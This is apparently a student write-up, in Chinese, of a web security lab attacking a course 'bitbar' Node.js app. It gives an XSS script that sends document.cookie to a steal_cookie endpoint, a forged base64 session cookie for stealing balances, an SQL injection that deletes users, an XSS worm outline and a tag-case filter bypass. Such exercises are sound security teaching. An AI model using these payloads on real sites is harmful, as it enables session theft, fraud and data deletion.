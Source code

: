 # CyberSecurity

> Contribution:
> 罗胤玻：a b c d
> 宋林恺：e f g

## a.txt
输入未知的user name xxx，显示出`xxx does not exist`
注意到`router.js`中相关代码如下：
```javascript
    if(result) { // if user exists
      render(req, res, next, 'profile/view', 'View Profile', false, result);
    }
    else { // user does not exist
      render(req, res, next, 'profile/view', 'View Profile', `${req.query.username} does not exist!`, req.session.account);
    }
```
可以看到，当用户不存在时，会将`req.query.username`直接拼接到返回的html中，这里存在XSS漏洞。
考虑在此注入一段js代码，如下：
```html
<p hidden>
    <script>
        var x = new XMLHttpRequest();
        x.open("GET", "http://localhost:3000/steal_cookie?cookie="+(document.cookie));
        x.send()
    </script>
```
这段代码会向`http://localhost:3000/steal_cookie`发送一个GET请求，其中包含当前页面的cookie信息。

## b.html
见`b.pdf`

## c.txt
在`router.js`中，有如下代码：
```javascript
  if(receiver) { // if user exists
    const amount = parseInt(req.body.quantity);
    if(Number.isNaN(amount) || amount > req.session.account.bitbars || amount < 1) {
      render(req, res, next, 'transfer/form', 'Transfer Bitbars', 'Invalid transfer amount!', {receiver:null, amount:null});
      return;
    }

    req.session.account.bitbars -= amount;
    query = `UPDATE Users SET bitbars = "${req.session.account.bitbars}" WHERE username == "${req.session.account.username}";`;
    await db.exec(query);
    const receiverNewBal = receiver.bitbars + amount;
    query = `UPDATE Users SET bitbars = "${receiverNewBal}" WHERE username == "${receiver.username}";`;
    await db.exec(query);
    render(req, res, next, 'transfer/success', 'Transfer Complete', false, {receiver, amount});
  }
```
注意到转账更新是直接将`session cookie`中的相关数据更新到数据库中，考虑直接对`cookie`做改动。

登录`user1`，在控制台中查看`document.cookie`，得到
```
"session=eyJsb2dnZWRJbiI6dHJ1ZSwiYWNjb3VudCI6eyJ1c2VybmFtZSI6InVzZXIxIiwiaGFzaGVkUGFzc3dvcmQiOiI4MTQ2ZmYzM2U4MTVlMWEwOGVhZTJiNDczYmYyY2NhMTU5NTgyZTQzNGM1MjUyNGMzMzI1ZjA2ZThjMmI4MGQ5Iiwic2FsdCI6IjEzMzciLCJwcm9maWxlIjoiIiwiYml0YmFycyI6MjAwfX0="
```

使用base64解码：
`{"loggedIn":true,"account":{"username":"user1","hashedPassword":"8146ff33e815e1a08eae2b473bf2cca159582e434c52524c3325f06e8c2b80d9","salt":"1337","profile":"","bitbars":200}}`

直接对解码后的cookie修改`username`和`bitbars`字段，再将其base64编码，得到新的cookie即可

## d.txt
和`c.txt`的原理相同，获取`cookie`后，修改`bitbars`字段即可

## e.txt

该题为SQL Injection，我们在`router.js`中找到如下代码：
```javascript
const query = `DELETE FROM Users WHERE username == "${req.session.account.username}";`;
```

没有做任何的过滤，所以可以直接注入SQL语句，删除数据库中的数据。我使用的SQL语句如下：
```
user3" OR username LIKE "user3%";#
```
\#可以将之后的语句全部注释，在删除时就是删除所有以user3开头的用户。

## f.txt

该题是XSS, 我们可以在代码中发现
```javascript
<% if (result.username && result.profile) { %>
    <div id="profile"><%- result.profile %></div>
<% } %>
```
那么profile是要执行的。
所以我们通过通过XSS发送transfer请求进行转账，之后再通过发送set_profile请求将profile复制到查看的用户上，这样就可以实现XSS worm攻击。

## g.txt

本题是侧信道攻击，我们再transfer请求中，可以看到
```javascript
<input type="text" name="destination_username" value="<%= result.receiver %>">
```

由于使用的是<%=>会进行一些filter，经过查阅资料，发现可以改变一些TAG绕过filter，所以我们将img改为imG,script改为scripT，这样就可以绕过filter，将脚本注入到页面中进行登录操作。